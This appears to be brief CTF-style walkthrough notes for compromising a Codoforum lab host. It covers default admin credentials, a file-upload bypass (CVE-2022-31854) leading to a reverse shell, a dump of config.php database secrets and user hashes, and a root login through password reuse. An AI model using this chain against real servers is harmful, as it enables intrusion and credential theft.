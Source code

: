 [http://192.168.246.23/admin/](#http://192.168.246.23/admin/)


admin:admin

searchsploit codoforum
CVE\-2022\-31854

file upload \.img \-\> \.php 

application/x\-php

get reverse shell
$ www\-data

www\-data@codo:/var/www/html/sites/default$ cat config\.php
cat config\.php
\<?php

/\* 
\* @CODOLICENSE
\*/

defined\('IN\_CODOF'\) or die\(\);

$CF\_installed=true;

function get\_codo\_db\_conf\(\) \{


$config = array \(
'driver' =\> 'mysql',
'host' =\> 'localhost',
'database' =\> 'codoforumdb',
'username' =\> 'codo',
'password' =\> 'FatPanda123',
'prefix' =\> '',
'charset' =\> 'utf8',
'collation' =\> 'utf8\_unicode\_ci',
\);

return $config;
\}

$DB = get\_codo\_db\_conf\(\);

$CONF = array \(

'driver' =\> 'Custom',
'UID'    =\> '631042af544ef',
'SECRET' =\> '631042af544f0',
'PREFIX' =\> ''
\);

| id | username  | name      | pass                                                         | token | mail                | created    | last\_access | read\_time | user\_status | avatar            | signature | no\_posts | profile\_views | oauth\_id | reputation | last\_notification\_view\_time |                                                                                                                                                                                       
\+\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+                                                                                                                                                                                       
|  1 | admin     | admin     | $2a$08$NxmF1vhrsnMypsJ1fJkR5OyxtBLWDChyHS4sAT\.6ue6SyR2rbmFvS | NULL  | admin@codo\.pg       | 1662010038 |  1708990688 |         0 |           1 | 65dd201344e33\.jpg |           |        1 |             2 | 0        |          0 |                           0 |                                                                                                                                                                                       
|  2 | anonymous | Anonymous | youJustCantCrackThis                                         |       | anonymous@localhost | 1662010038 |  1662010038 |         0 |           0 |                   |           |        0 |             0 | 0        |          0 |                           0 |                                                                                                                                                                                       
\+\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+ 

$ su root
FatPanda123

# root